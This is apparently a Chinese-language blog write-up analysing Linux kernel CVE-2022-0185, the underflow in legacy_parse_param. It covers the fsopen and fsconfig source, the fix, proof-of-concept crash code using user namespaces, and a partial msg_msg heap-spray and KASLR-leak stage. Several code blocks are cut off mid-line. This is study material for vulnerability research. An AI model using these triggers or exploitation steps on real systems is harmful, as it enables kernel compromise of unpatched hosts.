其中调用了我们`fs_type->init_fs_context`函数（但是该指针好像初始为0，所以一般`init_fs_context`会指向`legacy_init_fs_context`，该函数将会在之后漏洞介绍开始讲解），这是在新一代mount系统调用中增添的函数指针字段，之后就是初始化我们新创建的`fs_context`，然后返回给最初的`fsopen`系统调用

因此我们接着来分析后半段的`fsopen`

```c
...
put_filesystem(fs_type);
if (IS_ERR(fc))
        return PTR_ERR(fc);

fc->phase = FS_CONTEXT_CREATE_PARAMS;

ret = fscontext_alloc_log(fc);
if (ret 
```

首先他会调用`fscontext_alloc_log(fc)`，该函数的作用就是为该次文件系统上下文的`log`字段分配空间，然后将其中的`log`字段的`owner`指向当前文件系统类型`filesystem_type`的模块指针`owner`字段

之后我们调用`fscontext_create_fd`函数，其中存在以下调用链

```c
fscontext_create_fd(fc, flags & FSOPEN_CLOEXEC ? O_CLOEXEC : 0)
        anon_inode_getfd("[fscontext]", &fscontext_fops, fc, O_RDWR | o_flags)
                __anon_inode_getfd(name, fops, priv, flags, NULL, false)
```

其功能是为了返回一个同文件系统类型相联系的`fd`号，就跟咱们打开文件一样

### `__anon_inode_getfd`

```c
const struct file_operations fscontext_fops = {
        .read                = fscontext_read,
        .release        = fscontext_release,
        .llseek                = no_llseek,
};

static int __anon_inode_getfd(const char *name,
                              const struct file_operations *fops,
                              void *priv, int flags,                                         //这里priv就是之前创建的fscontext
                              const struct inode *context_inode,                 //为NULL，匿名inode
                              bool secure)
{
        int error, fd;
        struct file *file;

        error = get_unused_fd_flags(flags);         //获取空闲文件描述符
        if (error 
```

该函数整体的功能就是创建一个`[fscontext]`文件实例，然后返回`fd`号，这里也是同我们之前的`fscontext`创建了联系，创建联系的关键函数就是

```c
__anon_inode_getfile(name, fops, priv, flags, context_inode, secure)
```

该函数有这样一段代码


# fsopen

```
file->private_data = priv;
```

其中 `file->private_data` 被赋值为我们的 `priv`，该字段通过咱们之前的分析是指向了先前创建的 `fscontext` 的，通过这一链接，我们就可以通过特殊的文件函数指针来进行相关操作了。

这里总结一下 `fsopen` 的步骤：

- 获取相应的文件系统类型
- 构建文件系统上下文，`fscontext`，将其与上面的 `fstype` 通过字段相关联
- 获取 `fscontext` 文件，通过字段与 `fscontext` 相关联，且其中函数指针为一个全局虚函数表
- 返回上面文件的描述符 `fd`，以后都是通过该描述符来进行操作

调用链为：

```
sys_fsopen

        get_fs_type                 //获取fs_type

        fs_context_for_mount

                alloc_fs_context         //分配fscontext以及初始化部分字段

        fscontext_alloc_log         

        fscontext_create_fd         

                anon_inode_getfd

                        __anon_inode_getfd         //创建文件与fscontext关联，并返回fd
```

# fsconfig

```
/**
 * sys_fsconfig - 在一个上下文当中设置参数并且触发行动
 * @fd: 之前fsopen获得的文件系统上下文相关联的fd
 * @cmd: 指令
 * @_key: 键
 * @_value: 值
 * @aux: value参数的附加信息
 *
 * This system call is used to set parameters on a context, including
 * superblock settings, data source and security labelling.
 *
 * Actions include triggering the creation of a superblock and the
 * reconfiguration of the superblock attached to the specified context.
 *
 * When setting a parameter, @cmd indicates the type of value being proposed
 * and @_key indicates the parameter to be altered.
 *
 * @_value and @aux are used to specify the value, should a value be required:
 *
 * (*) fsconfig_set_flag: No value is specified.  The parameter must be boolean
 *     in nature.  The key may be prefixed with "no" to invert the
 *     setting. @_value must be NULL and @aux must be 0.
 *
 * (*) fsconfig_set_string：指定字符串值。 
 * 该参数可以是布尔值、整数、字符串或采用路径。 
 * 将尝试转换为适当的类型（可能包括作为路径查找）。 
 * @_value 指向以 NUL 结尾的字符串，@aux 必须为 0。
 *
 * (*) fsconfig_set_binary: A binary blob is specified.  @_value points to the
 *     blob and @aux indicates its size.  The parameter must be expecting a
 *     blob.
 *
 * (*) fsconfig_set_path: A non-empty path is specified.  The parameter must be
 *     expecting a path object.  @_value points to a NUL-terminated string that
 *     is the path and @aux is a file descriptor at which to start a relative
 *     lookup or AT_FDCWD.
 *
 * (*) fsconfig_set_path_empty: As fsconfig_set_path, but with AT_EMPTY_PATH
 *     implied.
 *
 * (*) fsconfig_set_fd: An open file descriptor is specified.  @_value must be
 *     NULL and @aux indicates the file descriptor.
 */
SYSCALL_DEFINE5(fsconfig,
                int, fd,
                unsigned int, cmd,
                const char __user *, _key,
                const void __user *, _value,
                int, aux)
{
        struct fs_context *fc;
        struct fd f;
        int ret;
        int lookup_flags = 0;

...
```

# 漏洞介绍

该漏洞适用于内核版本5.1，且至少持续到5.16，通过 syzbot 检测到并进行利用，其中洞主在 [www.willsroot.io/2022/01/cve-2022-0185.html](https://www.willsroot.io/2022/01/cve-2022-0185.html) 中首先给出了一个崩溃 poc，但是我在5.4内核版本的 linux 当中无法触发，因此下面来尝试分析一下漏洞链条和自行编写触发漏洞 poc。

## 崩溃链

首先对于 `fsopen` 在之前已经讲解的十分清楚，就是返回一个与 `fscontext` 相关联的 `fd` 而已，然后重要的就是后面的 `fsconfig` 系统调用。

可以看到上面 poc 中不停调用以下代码：

```
fsconfig(fd, FSCONFIG_SET_STRING, "\x00", val, 0);
```

其中 `cmd` 指针传递的 `FSCONFIG_SET_STRING`，这里注意我们的键值都不能为 `null`，不然就直接返回错误了，大伙也可以自行去查看相关源码。

咱们只关心即将调用到的函数链条，在系统调用 `fsconfig` 当中，他会走到下面这段代码：

```
        struct fs_parameter param = {
                .type        = fs_value_is_undefined,
        };

        ...

        case FSCONFIG_SET_STRING:
                param.type = fs_value_is_string;
                param.string = strndup_user(_value, 256);
                if (IS_ERR(param.string)) {
                        ret = PTR_ERR(param.string);
                        goto out_key;
                }
                param.size = strlen(param.string);
                break;
        ...

                default:
                break;
        }

        ret = mutex_lock_interruptible(&fc->uapi_mutex);
        if (ret == 0) {
                ret = vfs_fsconfig_locked(fc, cmd, ¶m);
                mutex_unlock(&fc->uapi_mutex);
        }

...
```

其中 `param` 字段的数据结构如下：

```
/*
 * 配置参数
 */
struct fs_parameter {
        const char                *key;                /* 参数名称 */
        enum fs_value_type        type:8;                /* _value的类型 */
        union {
                char                *string;
                void                *blob;
                struct filename        *name;
                struct file        *file;
        };
        size_t        size;
        int        dirfd;
};
```

其中会调用到一个关键的开头函数 `vfs_fsconfig_locked`，在该函数的 `switch` 当中会因为没有对应的 `case` 而走到 `default` 当中，并且在一般情况下这个 `if` 条件是不满足的，如下：

```
        default:
                if (fc->phase != FS_CONTEXT_CREATE_PARAMS &&
                    fc->phase != FS_CONTEXT_RECONF_PARAMS)
                        return -EBUSY;

                return vfs_parse_fs_param(fc, param);
        }
        fc->phase = FS_CONTEXT_FAILED;
        return ret;
}
```

导致后面会调用 `vfs_parse_fs_param` 函数

### vfs_parse_fs_param

```
int vfs_parse_fs_param(struct fs_context *fc, struct fs_parameter *param)
{
        int ret;

        if (!param->key)
                return invalf(fc, "Unnamed parameter\n");

        ret = vfs_parse_sb_flag(fc, param->key);

        ...

        if (fc->ops->parse_param) {
                ret = fc->ops->parse_param(fc, param);
                if (ret != -ENOPARAM)
                        return ret;
        }

        ...
}
```

他会调用 `fscontext` 中的 `ops` 函数表指向的 `parse_param` 函数，也就是解析我们传递的参数，这里 `fscontext` 所指向的表我们在之前分析 `fsopen` 的时候有讲到说在后面分析，如下：

```
        ...
        /* TODO: Make all filesystems support this unconditionally */
        init_fs_context = fc->fs_type->init_fs_context;
        if (!init_fs_context)
                init_fs_context = legacy_init_fs_context;

        ret = init_fs_context(fc);
        ...
```

willsroot 原话：

> 我们在漏洞利用中滥用的是 ext4。我们最初的模糊测试崩溃发生在 Plan 9 文件系统上。似乎在这两个文件系统（以及大量其他文件系统）中都没有设置 `init_fs_context` 字段，因此它们都默认为 legacy 并且可以沿着 `legacy_parse_param` 的路径走下去。

```
/*
 * Initialise a legacy context for a filesystem that doesn't support
 * fs_context.
 */
static int legacy_init_fs_context(struct fs_context *fc)
{
        fc->fs_private = kzalloc(sizeof(struct legacy_fs_context), GFP_KERNEL_ACCOUNT);
        if (!fc->fs_private)
                return -ENOMEM;

        fc->ops = &legacy_fs_context_ops;

        return 0;
}
```

具体函数表如下：

```
const struct fs_context_operations legacy_fs_context_ops = {
        .free                        = legacy_fs_context_free,
        .dup                        = legacy_fs_context_dup,
        .parse_param                = legacy_parse_param,
        .parse_monolithic        = legacy_parse_monolithic,
        .get_tree                = legacy_get_tree,
        .reconfigure                = legacy_reconfigure,
};
```

我们回到上面对于 `vfs_parse_fs_param` 的分析，他是调用了 `ops->parse_param` 函数，对应于函数表当中的 `legacy_parse_param` 函数，下面我们就来分析一下

### legacy_parse_param

```
/*
 * 
 * 向旧配置添加参数。我们建立一个以逗号分隔的选项列表
 */
static int legacy_parse_param(struct fs_context *fc, struct fs_parameter *param)
{
        struct legacy_fs_context *ctx = fc->fs_private;         //初始化时为zalloc分配的一段堆空间
        unsigned int size = ctx->data_size;                 //第一次调用的时候，size应该还是0
        size_t len = 0;
        int ret;

        ret = vfs_parse_fs_param_source(fc, param);
        if (ret != -ENOPARAM)
            return ret;

        if (ctx->param_type == LEGACY_FS_MONOLITHIC_PARAMS)
            return invalf(fc, "VFS: Legacy: Can't mix monolithic and individual options");

        switch (param->type) {
        case fs_value_is_string:
                len = 1 + param->size;                         //len被赋值为1+（_value）的长度
                fallthrough;
        case fs_value_is_flag:
                len += strlen(param->key);
                break;
        default:
                return invalf(fc, "VFS: Legacy: Parameter type for '%s' not supported",
                              param->key);
        }

        if (len > PAGE_SIZE - 2 - size)
                return invalf(fc, "VFS: Legacy: Cumulative options too large");
```


## 源码分析

```c
if (strchr(param->key, ',') ||
    (param->type == fs_value_is_string &&
     memchr(param->string, ',', param->size)))
        return invalf(fc, "VFS: Legacy: Option '%s' contained comma",
                      param->key);

if (!ctx->legacy_data) {
        ctx->legacy_data = kmalloc(PAGE_SIZE, GFP_KERNEL);
        if (!ctx->legacy_data)
                return -ENOMEM;
}

ctx->legacy_data[size++] = ',';
len = strlen(param->key);
memcpy(ctx->legacy_data + size, param->key, len);
size += len;

if (param->type == fs_value_is_string) {
        ctx->legacy_data[size++] = '=';
        memcpy(ctx->legacy_data + size, param->string, param->size);
        size += param->size;
}

ctx->legacy_data[size] = '\0';
ctx->data_size = size;
ctx->param_type = LEGACY_FS_INDIVIDUAL_PARAMS;
return 0;
}
```

我们接下来分批次查看上述源码。

### step1

首先便是一系列赋值：

```c
static int legacy_parse_param(struct fs_context *fc, struct fs_parameter *param)
{
        struct legacy_fs_context *ctx = fc->fs_private;         //初始化时为zalloc分配的一段堆空间
        unsigned int size = ctx->data_size;                 //第一次调用的时候，size应该还是0
        size_t len = 0;
        int ret;
```

在我们一开始分配 `fscontext` 的时候，会调用 `legacy_init_fs_context()` 函数，他会将我们的 `fc->fs_private` 分配一个填充 0 的堆块，然后该代码就是将其堆块赋值给 `ctx` 字段，然后赋值其中的 `size`，注意在我们第一次调用到该函数的时候，其都为 0。

### step2

```c
switch (param->type) {
        case fs_value_is_string:
                len = 1 + param->size;                         //len被赋值为1+（_value）的长度
                fallthrough;
        ...
        }

if (len > PAGE_SIZE - 2 - size)
        return invalf(fc, "VFS: Legacy: Cumulative options too large");
```

这里我将多余代码去除，可以看到 `len` 被赋值为我们之前传入的 `_value` 值的大小 +1，然后之后就有一个判断，但是这里的判断是存在漏洞的。

因为 `len` 的类型为 `size_t`，`size` 的类型同样也是 `unsigned int`，因此如果说我们的 `size + 2 > PAGE_SIZE` 的话，右边就会出现一个极大的数，然后我们的 `len` 长度就可以任意覆盖且绕过判断，具体有啥用处我们之后再详细讲解。

### step3

```c
if (strchr(param->key, ',') ||
    (param->type == fs_value_is_string &&
     memchr(param->string, ',', param->size)))
        return invalf(fc, "VFS: Legacy: Option '%s' contained comma",
                      param->key);
if (!ctx->legacy_data) {
        ctx->legacy_data = kmalloc(PAGE_SIZE, GFP_KERNEL);
        if (!ctx->legacy_data)
                return -ENOMEM;
}
```

其中第一个 `if` 判断我们传入的 `key` 是否包含 `,`，或 `value` 当中是否包含 `,`，然后如果咱们是第一次调用该函数，那么 `legacy_data` 应该为 0，所以这里会调用我们的 `kmalloc`，并从 `kmalloc-4k` 当中取。

### step4

```c
ctx->legacy_data[size++] = ',';
len = strlen(param->key);
memcpy(ctx->legacy_data + size, param->key, len);
size += len;

if (param->type == fs_value_is_string) {
        ctx->legacy_data[size++] = '=';
        memcpy(ctx->legacy_data + size, param->string, param->size);
        size += param->size;
}

ctx->legacy_data[size] = '\0';
ctx->data_size = size;
ctx->param_type = LEGACY_FS_INDIVIDUAL_PARAMS;
return 0;
}
```

这里就是拷贝我们的 `ctx` 之中缓冲区的过程，其中 `ctx->legacy_data` 应该是这种情况：

```text
{,key_0=value_0,key_1=value_1,......\0}
```

修改这个 `ctx` 实际上就是修改我们 `(struct legacy_fs_context)fc->fs_private` 的过程。

该 bug 自从 [commit 3e1aeb00e6d132efc151dacc062b38269bc9eccc](https://github.com/torvalds/linux/commit/3e1aeb00e6d132efc151dacc062b38269bc9eccc#diff-c4a9ea83de4a42a0d1bcbaf1f03ce35188f38da4987e0e7a52aae7f04de14a05) 开始出现，其中的修复也十分简单，仅仅是将其中的减法替换为加法，这样就不会存在溢出的情况。

```diff
diff --git a/fs/fs_context.c b/fs/fs_context.c
index de1985eae..a195e516f 100644
--- a/fs/fs_context.c
+++ b/fs/fs_context.c
@@ -548,7 +548,7 @@ static int legacy_parse_param(struct fs_context *fc, struct fs_parameter *param)
                              param->key);
        }
-       if (len > PAGE_SIZE - 2 - size)
+       if (size + len + 2 > PAGE_SIZE)
                return invalf(fc, "VFS: Legacy: Cumulative options too large");
        if (strchr(param->key, ',') ||
```

## 2. 漏洞触发 PoC 编写

这里先给出洞主的 PoC：

```c
#define _GNU_SOURCE
#include 
#include 
#include 

#ifndef __NR_fsconfig
#define __NR_fsconfig 431
#endif
#ifndef __NR_fsopen
#define __NR_fsopen 430
#endif
#define FSCONFIG_SET_STRING 1
#define fsopen(name, flags) syscall(__NR_fsopen, name, flags)
#define fsconfig(fd, cmd, key, value, aux) syscall(__NR_fsconfig, fd, cmd, key, value, aux)

int main(void)
{
        char* val = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
        int fd = 0;
        fd = fsopen("9p", 0);
        if (fd 
```

这里最初发现无法触发漏洞，但是 willsroot 本人所说是“reliably”。


经过打印调试 :dog:，发现返回值为 `-1`，到源码里面发现是在这一步进行了返回。


而网上搜寻资料得知，`ns_capable()` 负责主体（进程）和客体（资源）的 capability 进行校验。

```c
/**
 * ns_capable - Determine if the current task has a superior capability in effect
 * @ns:  The usernamespace we want the capability in
 * @cap: The capability to be tested for
 *
 * Return true if the current task has the given superior capability currently
 * available for use, false if not.
 *
 * This sets PF_SUPERPRIV on the task if the capability is available on the
 * assumption that it's about to be used.
 */
bool ns_capable(struct user_namespace *ns, int cap)
{
        return ns_capable_common(ns, cap, CAP_OPT_NONE);
}
```

这里就是在检查我们的用户命名空间的权限，解决方法截选自 [arttnba3.cn/2023/01/11/CVE-0X09-CVE-2022-0185/#Proof-of-Concept](https://arttnba3.cn/2023/01/11/CVE-0X09-CVE-2022-0185/#Proof-of-Concept)。


除此之外 willsroot 洞主的博客当中也有说明这一点，但就是不知道为啥在作者第一个 PoC 当中并未体现。

> This bug popped up since [commit 3e1aeb00e6d132efc151dacc062b38269bc9eccc](https://github.com/torvalds/linux/commit/3e1aeb00e6d132efc151dacc062b38269bc9eccc#diff-c4a9ea83de4a42a0d1bcbaf1f03ce35188f38da4987e0e7a52aae7f04de14a05). It’s important to note that you need the `CAP_SYS_ADMIN` capability to trigger it, but the permission only [fsopen.c#L122](https://elixir.bootlin.com/linux/v5.14.21/source/fs/fsopen.c#L122). Most unprivileged users can just `unshare(CLONE_NEWNS|CLONE_NEWUSER)` (equivalent of the command `unshare -Urm`) to enter a namespace with the `CAP_SYS_ADMIN` permission, and abuse the bug from there; this is what makes this such a dangerous vulnerability.

因此我们可以稍微修改一下 willsroot 师傅的 PoC 即可成功造成 kernel panic。

首先我们知道了漏洞点，其中我们该如何触发呢，那就是使得我们的 `size`，也就是我们已经写入的大小，但是现在有个问题，如果你任意调用 `fsconfig` 的话，或者说你调用 `fsconfig` 一直调用一天有可能也触发不了 kernel panic。

但其实原作者的 PoC 并不是瞎编的，也是通过了一定的计算，我们先来缕一缕。

首先我们每次写入的字节数应该是一个 `,`、一个 `=` 和我们 `key`、`value` 的长度，所以长度应该是 `length(key) + length(value) + 2`，并且我们每次需要通过这个检测：

```c
if (len > PAGE_SIZE - 2 - size)
        return invalf(fc, "VFS: Legacy: Cumulative options too large");
```

所以我们尽量需要满足 `size` 在 4095，也就是刚好需要填充满整个申请页面才行，不然如果说在之前填入的时候有空闲，那就不会继续写入，被这个检测拦住，所以我们需要刚好规划到 4095 这个 `size`，下面就是我按照自行理解所写 PoC，如下：

```c
#define _GNU_SOURCE 

#include 

#include 

#include 

#include 

#include 

- 

#include 

#include 

#include 

#include 

#include 

#ifndef __NR_fsopen

#define __NR_fsopen 430

#endif

#ifndef __NR_fsconfig

#define __NR_fsconfig 431

#endif

int fsopen(const char *fs_name, unsigned int flags)

{

    return syscall(__NR_fsopen, fs_name, flags);

}

int fsconfig(int fsfd, unsigned int cmd, 

             const char *key, const void *val, int aux)

{
```


```
return syscall(__NR_fsconfig, fsfd, cmd, key, val, aux);

}

int main(void)
{
        int fd = 0;
        char* val = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";

        unshare(CLONE_NEWNS | CLONE_NEWUSER);
        fd = fsopen("ext4", 0);

        if (fd 
```

## 效果展示



经过多次测试，现在的情况算是可以造成内核报错reliably了

# 四、消息队列

消息队列是进程之间通信的一种方法，基于SystemV模型，其功能原理并不是很难

产生消息并将其写道队列的进程通常被成为发送者，而一个或其他多个进程就被称为接收者，他们均从队列获取信息。每个消息包含消息正文和一个(正)数，该数用来实现在消息队列内实现几种类型的消息。同一编号的消息按照FIFO来处理。此种涉及到的消息队列数据结构在源码中以`msg_queue`来进行表示

```
/* one msq_queue structure for each present queue on the system */
struct msg_queue {
        struct kern_ipc_perm q_perm;
        time64_t q_stime;                /* 上一次调用msgsnd发送消息的时间 */
        time64_t q_rtime;                /* 上一次调用msgrcv接收消息的时间 */
        time64_t q_ctime;                /* 上一次修改的时间 */
        unsigned long q_cbytes;                /* 队列上当前字节数 */
        unsigned long q_qnum;                /* 队列中的消息数目 */
        unsigned long q_qbytes;                /* 队列上最大字节数目 */
        struct pid *q_lspid;                /* 上一次调用msgsnd的pid */
        struct pid *q_lrpid;                /* 上一次接收消息的pid */

        struct list_head q_messages;         
        struct list_head q_receivers;
        struct list_head q_senders;
} __randomize_layout;
```

除开上面注释的部分，还有三个`list_head`类型的参数，他们分别用来管理睡眠的发送者(`q_senders`)、接收者(`q_receivers`)和消息本身(`q_messages`)

而其中我们的`q_messages`中的各个消息都封装在一个`msg_msg`当中

```
/* one msg_msg structure for each message */

struct msg_msg {
        struct list_head m_list;                         /* 用作与其他msg_msg相链接 */
        long m_type;                                                 /* 消息类型，用于支持前文所描述的消息队列当中不同的消息类型 */
        size_t m_ts;                /* 消息正文长度 */
        struct msg_msgseg *next;          /* 如果保存超过一个内存页的长消息，则需要next */
        void *security;

        /* 接下来是实际的消息 */
};

struct msg_msgseg {
        struct msg_msgseg *next;

        /* 接下来是实际的消息 */
};
```

`msg_msg`与`user_key_payload`相似，都是包含一个固定大小的头结构，剩下的就是消息正文，每个消息都至少分配一个内存页，如下图：


基础数据结构讲完，下面我们就来分析一下消息队列中较为重要的几个系统调用

## 1. `msgsnd`

```
long ksys_msgsnd(int msqid, struct msgbuf __user *msgp, size_t msgsz,
                 int msgflg)
{
        long mtype;

        if (get_user(mtype, &msgp->mtype))
                return -EFAULT;
        return do_msgsnd(msqid, mtype, msgp->mtext, msgsz, msgflg);
}

SYSCALL_DEFINE4(msgsnd, int, msqid, struct msgbuf __user *, msgp, size_t, msgsz,
                int, msgflg)
{
        return ksys_msgsnd(msqid, msgp, msgsz, msgflg);
}
```

其中的关键函数为`do_msgsnd`，接下来我们逐步进行分析

在我们想要发送消息的时候，`do_msgsnd`会需要为消息创建空间，他调用的这个函数便是`load_msg`，如下：

```
static long do_msgsnd(int msqid, long mtype, void __user *mtext,
                size_t msgsz, int msgflg)
{
        struct msg_queue *msq;
        struct msg_msg *msg;
        int err;
        struct ipc_namespace *ns;
        DEFINE_WAKE_Q(wake_q);

        ns = current->nsproxy->ipc_ns;

        if (msgsz > ns->msg_ctlmax || (long) msgsz 
```

而我们`load_msg`又是会调用`alloc_msg`来分配

```
struct msg_msg *load_msg(const void __user *src, size_t len)
{
        struct msg_msg *msg;
        struct msg_msgseg *seg;
        int err = -EFAULT;
        size_t alen;

        msg = alloc_msg(len);

        ...
```

接下来看到`alloc_msg`函数

```
#define DATALEN_MSG        ((size_t)PAGE_SIZE-sizeof(struct msg_msg))
#define DATALEN_SEG        ((size_t)PAGE_SIZE-sizeof(struct msg_msgseg))

static struct msg_msg *alloc_msg(size_t len)
{
        struct msg_msg *msg;
        struct msg_msgseg **pseg;
        size_t alen;

        alen = min(len, DATALEN_MSG);                 //从len和PAGE_SIZE-sizeof(struct msg_msg)当中取得较小值
        msg = kmalloc(sizeof(*msg) + alen, GFP_KERNEL_ACCOUNT);
        if (msg == NULL)
                return NULL;
        msg->next = NULL;
        msg->security = NULL;

        len -= alen;
        pseg = &msg->next;

        while (len > 0) {         //说明是较大的消息，所以需要msg_msgseg字段
                struct msg_msgseg *seg;

                cond_resched();
                alen = min(len, DATALEN_SEG);
                seg = kmalloc(sizeof(*seg) + alen, GFP_KERNEL_ACCOUNT);
                if (seg == NULL)
                        goto out_err;
                *pseg = seg;
                seg->next = NULL;
                pseg = &seg->next;
                len -= alen;
        }

        return msg;

out_err:
        free_msg(msg);
        return NULL;
}
```

其中通过源码大致可以看出，当分配大于`PAGE_SIZE`的时候，会额外增加`msg_msgseg`来存储消息正文，其中分配标志为`GFP_KERNEL_ACCOUNT`

## 2. `msgrcv`

```
long ksys_msgrcv(int msqid, struct msgbuf __user *msgp, size_t msgsz,
                 long msgtyp, int msgflg)
{
        return do_msgrcv(msqid, msgp, msgsz, msgtyp, msgflg, do_msg_fill);
}

SYSCALL_DEFINE5(msgrcv, int, msqid, struct msgbuf __user *, msgp, size_t, msgsz,
                long, msgtyp, int, msgflg)
{
        return ksys_msgrcv(msqid, msgp, msgsz, msgtyp, msgflg);
}
```

同send一样，他同样是调用`do_msgrcv`来操作

```
static long do_msgrcv(int msqid, void __user *buf, size_t bufsz, long msgtyp, int msgflg,
               long (*msg_handler)(void __user *, struct msg_msg *, size_t))
{
        int mode;
        struct msg_queue *msq;
        struct ipc_namespace *ns;
        struct msg_msg *msg, *copy = NULL;
        DEFINE_WAKE_Q(wake_q);

        ...

        bufsz = msg_handler(buf, msg, bufsz);
        free_msg(msg);
        return bufsz;
}
```

最终调用了`msg_handler`函数指针，这在最开始是传入了`do_msg_fill`作为函数指针，所以相当于最终调用了`do_msg_fill`，代码如下：

```
static long do_msg_fill(void __user *dest, struct msg_msg *msg, size_t bufsz)
{
        struct msgbuf __user *msgp = dest;
        size_t msgsz;

        if (put_user(msg->m_type, &msgp->mtype))
                return -EFAULT;

        msgsz = (bufsz > msg->m_ts) ? msg->m_ts : bufsz;
        if (store_msg(msgp->mtext, msg, msgsz))
                return -EFAULT;
        return msgsz;
}

/* message buffer for msgsnd and msgrcv calls */
struct msgbuf {
        __kernel_long_t mtype;          /* type of message */
        char mtext[1];                  /* message text */
};
```

其中将我们传入的`buf`，作为`msgbuf`结构，然后将其中`msgp->mtext`作为真正的`dest`进行拷贝，其中调用`strore_msg`函数，如下：

```
int store_msg(void __user *dest, struct msg_msg *msg, size_t len)
{
        size_t alen;
        struct msg_msgseg *seg;

        alen = min(len, DATALEN_MSG);
        if (copy_to_user(dest, msg + 1, alen))
                return -1;

        for (seg = msg->next; seg != NULL; seg = seg->next) {
                len -= alen;
                dest = (char __user *)dest + alen;
                alen = min(len, DATALEN_SEG);
                if (copy_to_user(dest, seg + 1, alen))
                        return -1;
        }

        return 0;
}
```

在`do_msgrcv`当中若`msgflg`带有`MSG_COPY`，会走到下面这段函数

```
static long do_msgrcv(int msqid, void __user *buf, size_t bufsz, long msgtyp, int msgflg,
               long (*msg_handler)(void __user *, struct msg_msg *, size_t))
{
        int mode;
        struct msg_queue *msq;
        struct ipc_namespace *ns;
        struct msg_msg *msg, *copy = NULL;
        DEFINE_WAKE_Q(wake_q);

        ns = current->nsproxy->ipc_ns;

        if (msqid msg_ctlmax));
                if (IS_ERR(copy))
                        return PTR_ERR(copy);
        }

        ...
```

其中会调用`prepare_copy`函数，如下：

```
static inline struct msg_msg *prepare_copy(void __user *buf, size_t bufsz)
{
        struct msg_msg *copy;

        /*
         * Create dummy message to copy real message to.
         */
        copy = load_msg(buf, bufsz);
        if (!IS_ERR(copy))
                copy->m_ts = bufsz;

        return copy;
}
```

这里是拷贝我们的一个预留`msg_msg`结构体用来存放消息，然后我们回到`msgrcv`

由于我们假设本次加上了`MSG_COPY`标志位，那么接下来会进行到下面这段代码


```
        for (;;) {
                struct msg_receiver msr_d;

                        ...

                        msg = find_msg(msq, &msgtyp, mode);

                        ...

                        /*
                         * If we are copying, then do not unlink message and do
                         * not update queue parameters.
                         */
                        if (msgflg & MSG_COPY) {
                                msg = copy_msg(msg, copy);                         //复制我们的msg,但并不unlink，这里的返回msg是我们的dst，也就是copy这个参数
                                goto out_unlock0;
                        }

                        ...

                }

                ...

out_unlock0:
        ipc_unlock_object(&msq->q_perm);
        wake_up_q(&wake_q);
out_unlock1:
        rcu_read_unlock();
        if (IS_ERR(msg)) {
                free_copy(copy);
                return PTR_ERR(msg);
        }

        bufsz = msg_handler(buf, msg, bufsz);
        free_msg(msg);                 //最后释放copy

        return bufsz;
}
```
该段函数由于咱们传入的`MSG_COPY`标志位，导致其中我们接受的消息并不会进行下面的列表unlink操作，而是直接复制到临时`msg`，然后通过`msg_handler`（也就是`do_msg_fill`函数）传入给我们的用户区`buf`，最后释放掉我们刚刚创建的临时`msg`

# 五、漏洞利用

## 1. 基地址泄露

首先我们假设其处于真实环境，所以应开的保护基本都需要开启，目前我们先来解决一下`KASLR`导致的地址随机化问题

题目中我们需要泄露基地址，我们选用`msg_msg`搭配`seq_operations`的手法

我们现在已知的一个溢出为内核堆上的`legacy_data`后的溢出，因此我们如何利用`legacy_data`下一页的内容呢？这时我们可以想到使用堆喷的技巧，在这里我们选则使用`msg_msg`来进行堆喷，其中是因为他大小可控，且若申请大小大于一页，则会额外申请`msg_msgseg`结构体来继续存储消息，其二是因为他的分配标志为`GFP_KERNEL_COUNT`,他刚好同之前我们的`fsconfig`中申请的`fc->private`，也就是`legacy_data`相一致，如果此处选用`GFP_KERNEL`的结构体则会存在隔离情况，这个加上`COUNT`的标志位一般从`kmalloc-cg-*`来分配，后面不带`COUNT`的则从`kmalloc-*`分配

过程我打算就按照will的wp进行复现，其中的堆喷技巧也值得借鉴

首先我们要知道大致的堆喷范围，这里我们可以使用命令

```
cat /proc/slabinfo
```

查看一下自己本机的情况大致了解一下，我本机的内核版本是6.2


由于我们这个属于大块，在分配的时候也是使用`kmalloc_large`来分配，所以相应的`slab`也较大，其中`objperslab`为8，也就是说同一个`slab`里面有8个这样的`obj`,所以我们的堆喷范围大概就是在这个范围左右

```
uint64_t do_leak(){
    uint64_t kernel_base;
    char pat[0x1000] = {0};
    char buffer[0x2000] = {0}, recieved[0x2000] = {0};      //PAGE_SIZE*2
    int targets[0x10] = {0};
    msg* message = (msg* )(buffer); 
    int size = 0x1018;      
    /* msg_msg: (0x30)head, (0xfd0)message_0
     * msg_msgseg: (0x8)head, (0x18)message_1, for kmalloc-32 :)
     * */

    /* spray the msg_msg */
    for(int i = 0; i 
```
我们首先采取堆喷八个`msg_msg`，但是这里注意我们的消息长度为`(0x1018 - 0x30)`，这是为了保证我们可以增添一个额外的`msgseg`,这样可以，这里由于我们是要搭配后来的`seq_operations`，因此我们特意构造留给`msg_msgseg`的大小为`0x18`，也就是总共加上他的头为`0x20`，这样可以为我们之后的堆喷打基础:)

堆喷过后，我们正常利用`fsconfig`来构造溢出的临界状态，然后再继续进行堆喷，此处的目的是为了更大概率的使得我们溢出到`msg_msg`的头部分

```
    memset(pat, 0x42, sizeof(pat));

    pat[sizeof(pat) - 1] = '\x00';

    info_log("Opening the ext4 filesystem");

    fd = fsopen("ext4", 0);

    if (fd m_ts");

    fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0);
```
最后的`fsconfig`实际上就是在大概率写到`msg_msg`头部的情况下覆盖`msg_msg->m_ts`字段，制造出一个大数字的读取,下图就是我们恰好堆喷到我们溢出的部分



下图就是我们最后一次`fsconfig`的情况



可以看到我们的`m_ts`字段被修改为了`0x1060`,这样以来我们就可以越界进行读取，大伙还记得上面额外分配的`kmalloc-32`吗，接下来就得靠它了，之前顺便堆喷他的原因是为了让我们的`seq_operation`和他有一定概率出现在同一个`slab`里面

之后后面的泄露就是寻常化了，直接利用`msgrcv`系统调用，造成`OOB_read`，越界读取额外的`msg_msgseg`相邻的`seq_operations`函数指针，如下：

```
struct seq_operations {
        void * (*start) (struct seq_file *m, loff_t *pos);
        void (*stop) (struct seq_file *m, void *v);
        void * (*next) (struct seq_file *m, void *v, loff_t *pos);
        int (*show) (struct seq_file *m, void *v);
};
```
经过调试过程可得知，该`seq_operations->start`函数初始化为内核中的`single_start`函数，这样以来我们就可以实现内核基地址的泄露了

即可成功泄露基地址，但是我目前泄露是失败的，之后再看:(


